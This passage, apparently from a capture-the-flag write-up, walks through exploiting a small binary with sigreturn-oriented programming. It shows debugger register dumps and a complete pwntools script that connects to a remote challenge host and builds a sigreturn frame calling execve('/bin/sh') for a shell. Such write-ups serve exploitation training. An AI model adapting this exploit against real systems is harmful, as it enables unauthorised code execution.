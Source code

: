 ```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x6261616962616168 ("haabiaab"?)
$rcx   : 0x6261616f6261616e ("naaboaab"?)
$rdx   : 0x6261616b6261616a ("jaabkaab"?)
$rsp   : 0x6261617162616170 ("paabqaab"?)
$rbp   : 0x6261616762616166 ("faabgaab"?)
$rsi   : 0x6261616562616164 ("daabeaab"?)
$rdi   : 0x6261616362616162 ("baabcaab"?)
$rip   : 0x6261617362616172 ("raabsaab"?)
$r8    : 0x6161616c6161616b ("kaaalaaa"?)
$r9    : 0x6161616e6161616d ("maaanaaa"?)
$r10   : 0x616161706161616f ("oaaapaaa"?)
$r11   : 0x6161617261616171 ("qaaaraaa"?)
$r12   : 0x6161617461616173 ("saaataaa"?)
$r13   : 0x6161617661616175 ("uaaavaaa"?)
$r14   : 0x6161617861616177 ("waaaxaaa"?)
$r15   : 0x6261617a61616179 ("yaaazaab"?)
```
This clarifies the fact that specific offsets in my stack frame get pushed into specific registers. Theoretically, I could use this debugger information to figure out the offsets needed to fill each register. Fortunately, pwntools provides an easier method; it can automatically create a sigreturn frame, and the contents of individual registers can then be filled with lines like "frame.rsi = 0". So, all I have to do is make my sigreturn, follow it with a sigreturn frame in which rax = 0x3b (for execve), rdi = '/bin/sh' string, rsi and rdx are 0, and rip = a syscall gadget. Here is an exploit script that does just that:
```
from pwn import *

#target = process('./little')

#pid = gdb.attach(target, "\nb *0x0040100f\n set disassembly-flavor intel\ncontinue")

target = remote('host1.metaproblems.com', 5460)


syscall = 0x000000000040100d
syscall_pop_rax = p64(0x0000000000401007)
binsh = 0x00402000

padding = b''
payload = padding

payload += syscall_pop_rax
payload += p64(0xf)

# Specify the architecture
context.arch = "amd64"

frame = SigreturnFrame()

frame.rip = syscall
frame.rdi = binsh 
frame.rax = 59
frame.rsi = 0
frame.rdx = 0

payload += bytes(frame)
print(bytes(frame))

target.sendline(payload)

```